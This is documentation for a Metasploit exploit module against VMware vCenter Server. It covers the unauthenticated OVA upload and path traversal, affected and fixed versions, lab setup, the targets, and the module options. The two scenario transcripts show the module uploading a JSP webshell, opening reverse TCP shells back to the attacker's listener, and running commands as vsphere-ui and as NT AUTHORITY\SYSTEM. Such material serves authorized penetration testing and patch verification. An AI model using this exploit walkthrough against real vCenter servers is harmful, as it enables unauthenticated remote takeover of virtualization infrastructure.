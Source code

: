 ## Vulnerable Application

### Description

This module exploits an unauthenticated OVA file upload and path
traversal in VMware vCenter Server to write a JSP payload to a
web-accessible directory.

Fixed versions are 6.5 Update 3n, 6.7 Update 3l, and 7.0 Update 1c.
Note that later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. Furthermore, writing an SSH
public key to `/home/vsphere-ui/.ssh/authorized_keys` works, but the
user's non-existent password expires 90 days after install, rendering
the technique nearly useless against production environments.

You'll have the best luck targeting older versions of the Linux
appliance. The Windows target should work ubiquitously.

### Setup

Follow [VMware's official
documentation](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html)
on installing and configuring vCenter Server, or you can wing it like
me. The Linux appliance is meant to be deployed via ESXi, but I
short-circuited the procedure by mounting the ISO and importing the OVA
directly into VMware Fusion (or your desired hypervisor). YMMV.

```
wvu@kharak:~/Downloads$ hdiutil attach VMware-VCSA-all-6.7.0-11726888.iso
/dev/disk2          	                               	/Volumes/VMware VCSA
wvu@kharak:~/Downloads$ ls -l /Volumes/VMware\ VCSA/vcsa
total 4621748
-r-xr-xr-x  1 wvu  staff  2366330368 Jan 10  2019 VMware-vCenter-Server-Appliance-6.7.0.21000-11726888_OVF10.ova
dr-xr-xr-x  5 wvu  staff        2048 Jan 10  2019 ovftool
-r-xr-xr-x  1 wvu  staff          52 Jan 10  2019 version.txt
wvu@kharak:~/Downloads$
```

If you're using the workaround above, you'll need to connect to port
5480 to complete [Stage
2](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-CA114526-A413-4219-9FA7-F5A9E9ACA357.html)
of the faux deployment. The vSphere Client should be accessible on port
443 after Stage 2 is complete.

You'll want to test versions earlier than 6.7 Update 3l, since that's
patched. Later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. I haven't been able to download
and test them all. Sorry.

**Note:** If you're testing on Windows, using Windows Server 2019 will
fail miserably. Please use [Windows Server 2016 or
earlier](https://kb.vmware.com/s/article/2091273). It must be Windows
Server. I can't stress this enough!

**PROTIP:** Removing or otherwise disabling DNS resolution in the Linux
appliance will make setup run faster if you don't have an FQDN and DNS
server to back it up. This didn't seem to make a difference on Windows.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets the Linux appliance with a JSP payload. `VMware vCenter
Server <= 6.7 Update 1b (Linux)` is supported.

### 1

This targets the Windows install with a JSP payload. `VMware vCenter
Server <= 6.7 Update 3j (Windows)` is supported.

## Options

### SprayAndPrayMin

Spray JSP payload path starting at this index.

### SprayAndPrayMax

Spray JSP payload path stopping at this index.

## Scenarios

### VMware vCenter Server 6.7 Update 1b (Linux appliance)

```
msf6 > use exploit/multi/http/vmware_vcenter_uploadova_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > options

Module options (exploit/multi/http/vmware_vcenter_uploadova_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   VMware vCenter Server <= 6.7 Update 1b (Linux)


msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.135
rhosts => 192.168.123.135
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.135:443 - Identified VMware vCenter Server 6.7.0 build-11727113
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: O2qAd1Y7t0bhyUQFJ32Vyre6TQHcGoun.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.135/ui/resources/gVh2ROzD9QyyGNF6.jsp
[+] Successfully requested JSP payload
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.135:55342) at 2021-03-05 16:49:05 -0600
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/40/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp

id
uid=1016(vsphere-ui) gid=100(users) groups=100(users),59001(cis)
uname -a
Linux photon-machine 4.4.161-1.ph1 #1-photon SMP Wed Oct 17 12:15:18 UTC 2018 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
```

### VMware vCenter Server 6.7 Update 3j on Windows Server 2016

```
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set target 1
target => 1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.194
rhosts => 192.168.123.194
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.194:443 - Identified VMware vCenter Server 6.7.0 build-16709044
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: 0ggORbkxAcptUeH6U5S8.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.194/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp
[+] Successfully requested JSP payload
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.194:55411) at 2021-03-05 16:50:29 -0600
[!] Tried to delete /ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp, unknown result


C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>whoami
whoami
nt authority\system

C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>
```
